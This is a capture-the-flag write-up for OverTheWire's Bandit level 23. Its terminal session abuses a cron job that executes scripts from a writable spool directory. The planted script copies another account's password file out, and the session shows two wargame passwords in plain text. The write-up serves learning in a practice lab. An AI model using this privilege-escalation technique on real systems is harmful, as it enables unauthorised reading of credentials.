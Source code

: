 ## Objetivo
A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

## Datos Acceso
bandit23 
QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G

## Solución
```
bandit23@bandit:~$ ls /etc/cron.d
cronjob_bandit15_root cronjob_bandit22 cronjob_bandit24 e2scrub_all sysstat
cronjob_bandit17_root cronjob_bandit23 cronjob_bandit25_root otw-tmp-dir
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash
myname=$(whoami)
cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
if [ "$i" != "." -a "$i" != ".." ];
then
echo "Handling $i"
owner="$(stat --format "%U" ./$i)"
if [ "${owner}" = "bandit23" ]; then
timeout -s 9 60 ./$i
fi
rm -f ./$i
fi
done

bandit23@bandit:~$ 
bandit23@bandit:~$ mkdir /tmp/kd
bandit23@bandit:~$ cd /tmp/kd
bandit23@bandit:/tmp/kd$ echo "cat /etc/bandit_pass/bandit24 >
/tmp/kd/password" > script.sh
bandit23@bandit:/tmp/kd$ cat script.sh
cat /etc/bandit_pass/bandit24 > /tmp/kd/password
bandit23@bandit:/tmp/kd$ chmod +x script.sh
bandit23@bandit:/tmp/kd$ touch password
bandit23@bandit:/tmp/kd$ chmod 666 password
bandit23@bandit:/tmp/kd$ ls –la
total 92
drwxrwxr-x 2 bandit23 bandit23 4096 Sep 4 01:51 .
drwxrwx-wt 1957 root root 81920 Sep 4 01:51 ..
-rw-rw-rw- 1 bandit23 bandit23 0 Sep 4 01:51 password
-rwxrwxr-x 1 bandit23 bandit23 49 Sep 4 01:50 script.sh
bandit23@bandit:/tmp/kd$ cp script.sh /var/spool/bandit24/foo
bandit23@bandit:/tmp/kd$ ls -la
total 92
drwxrwxr-x 2 bandit23 bandit23 4096 Sep 4 01:51 .
drwxrwx-wt 1957 root root 81920 Sep 4 01:53 ..
-rw-rw-rw- 1 bandit23 bandit23 0 Sep 4 01:51 password
-rwxrwxr-x 1 bandit23 bandit23 49 Sep 4 01:50 script.sh
bandit23@bandit:/tmp/kd$ date
Sun Sep 4 01:54:12 AM UTC 2022
bandit23@bandit:/tmp/kd$ ls -la
total 96
drwxrwxr-x 2 bandit23 bandit23 4096 Sep 4 01:51 .
drwxrwx-wt 1957 root root 81920 Sep 4 01:53 ..
-rw-rw-rw- 1 bandit23 bandit23 33 Sep 4 01:54 password
-rwxrwxr-x 1 bandit23 bandit23 49 Sep 4 01:50 script.sh
bandit23@bandit:/tmp/kd$ cat password
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
bandit23@bandit:/tmp/kd$
```

## Notas Adicionales


## Referencias
